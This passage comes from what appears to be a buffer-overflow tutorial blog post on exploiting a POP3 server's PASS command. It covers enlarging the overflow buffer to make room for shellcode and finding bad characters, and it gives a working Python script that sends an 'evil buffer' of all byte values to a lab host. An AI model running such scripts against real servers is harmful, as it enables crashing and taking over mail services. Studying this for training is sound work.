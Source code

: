 - However, on counting those C’s, we notice that we have a total of 74 of them – not enough to contain a 350-byte payload.
- One easy way out of this is simply to try to increase our buffer length from 2700 bytes to 3500 bytes, and see if this results in a larger buffer space for our shellcode.

{% highlight Python %}
buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)
{% endhighlight %}

![Our Increased Buffer Length is Successful]({{site.base_url}}/assets/img/posts/buffer_overflow/37.png)

### Checking for Bad Characters

- Depending on the application, vulnerability type, and protocols in use, there may be certain characters that are considered"bad" and should not be used in your buffer, return address, or shellcode.
- One example of a common bad character (especially in buffer overflows caused by unchecked string copy operations) is the null byte (0x00).
- This character is considered bad because a null byte is also used to terminate a string copy operation, which would effectively truncate our buffer to wherever the first null byte appears.
- Another example of a bad character, specific to the POP3 PASS command, is the carriage return (0x0D), which signifies to the application that the end of the password has been reached.
- **An easy way to do this is to send all possible characters, from 0x00 to 0xff, as part of our buffer, and see how these characters are dealt with by the application, after the crash occurs**

{% highlight Python %}
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
badchars = ( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

buffer="A"*2606 + "B"*4 + badchars

try:
  print "\nSending evil buffer..."
  s.connect(('10.0.0.22',110))
  data = s.recv(1024)
  s.send('USER username' +'\r\n')
  data  = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  s.close()
  print "\nDone!"
except:
  print "Could not connect to POP3!"
{% endhighlight %}
